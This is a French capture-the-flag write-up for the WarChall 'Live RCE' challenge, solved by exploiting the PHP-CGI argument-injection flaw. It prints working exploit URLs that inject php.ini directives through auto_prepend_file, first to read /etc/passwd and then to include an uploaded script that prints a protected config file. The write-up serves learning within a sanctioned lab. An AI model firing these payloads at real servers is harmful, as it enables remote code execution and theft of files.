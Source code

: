 # Live - RCE
"Live RCE" fait référence à une "Remote Code Execution" (exécution de code à distance) en direct

## Objectif

Imprime le contenu de `/home/level/20_live_rce/config.php` 

## Solution du Challenge

La première chose utile que j'ai faite a été de tomber sur une vulnérabilité PHP-CGI sur Google. J'ai rapidement découvert qu'une bonne façon de tester cette vulnérabilité était d'utiliser :

```
http://rce.warchall.net/?-s
```

et de vérifier si le code source est affiché. C'était le cas ! Maintenant, je sais que je dois voir ce qu'il y a dans `/home/level/20_live_rce/config.php`. Maintenant, je savais sur quoi chercher sur Google. Après un certain temps, j'ai trouvé ce vecteur d'attaque. Il est censé me permettre d'inclure un fichier à distance ou local. En faisant :

```
https://rce.warchall.net/index.php?-dsafe_mode=Off+-ddisable_functions=NULL+-dallow_url_fopen=On+-dallow_url_include=On+-dauto_prepend_file=http:://google.com/robots.txt
```

cela n'a pas fonctionné, mais ceci a marché :

```
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/etc/passwd
```

Ensuite, je savais que j'avais accès à SSH et je pouvais mettre un script PHP de base dans un fichier à :

>`
/var/tmp/rce.txt
`

Code PHP basique pour /var/tmp/s.txt :

```php
<?php
echo file_get_contents("/home/level/20_live_rce/config.php");
```

Ensuite, je savais que je devais exécuter :

```
https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/var/tmp/rce.txt
```

À première vue, cela n'a pas fonctionné. Rien d'autre que le contenu de index.php n'était affiché dans le navigateur. Puis, je me suis souvenu que si cela réussissait, cela imprimerait quelque chose comme :

```php
<?php
// whatever
?>
```

>Cela ne peut être vu que si vous affichez le code source. Bingo. C'était là


J'ai testé le mot que j'ai vu dans le code source comme le drapeau et il a dit que le défi était résolu.


